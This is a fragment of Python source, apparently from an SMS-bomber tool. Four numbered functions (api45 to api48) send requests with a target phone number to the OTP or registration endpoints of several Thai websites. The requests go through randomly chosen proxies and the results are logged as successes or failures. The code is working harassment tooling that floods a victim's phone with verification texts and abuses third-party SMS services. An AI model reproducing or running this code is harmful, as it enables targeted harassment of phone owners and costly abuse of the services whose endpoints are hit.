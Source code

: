 def api45(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.ctrueshop.com/member.php?page=25&type=9",headers={"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","content-type": "application/x-www-form-urlencoded","cookie": "PHPSESSID=1po9v1nrrem5fr8co6urk37lv1; _gcl_au=1.1.867007754.1665302231; _ga=GA1.2.1978432786.1665302231; _gid=GA1.2.1842911343.1665302231; _gat_gtag_UA_19183081_1=1; __sdwc=0978bae8-1717-4f1b-9f1a-dcf9dce81fa8; rchatbox:checkCrossOriginWebdata=1665302236917","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"},data=f"tel1={phone}&affiliate=2&social=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api46(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = get(f"https://bkk-api.ks-it.co/Vcode/register?country_code=66&phone={phone}&sms_type=1&user_type=2&app_version=4.3.25&device_id=79722530562d973f&app_device_param=%7B%22os%22%3A%22Android%22%2C%22app_version%22%3A%224.3.25%22%2C%22model%22%3A%22A37f%22%2C%22os_ver%22%3A%225.1.1%22%2C%22ble%22%3A%220%22%7D&language=th&token=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api47(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.giztix.com/graphql",headers={"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36"},json={"operationName":"OtpGeneratePhone","variables":{"phone":f"66{phone[1:]}"},"query":"mutation OtpGeneratePhone($phone: ID!) {\n  otpGeneratePhone(phone: $phone) {\n    ref\n    __typename\n  }\n}\n"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api48(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://trainflix-api.xeersoft.co.th/api/otpphone/register",headers={"User-Agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","Accept": "application/json, text/plain, */*","Content-Type": "application/json"},json={"numberphone": phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	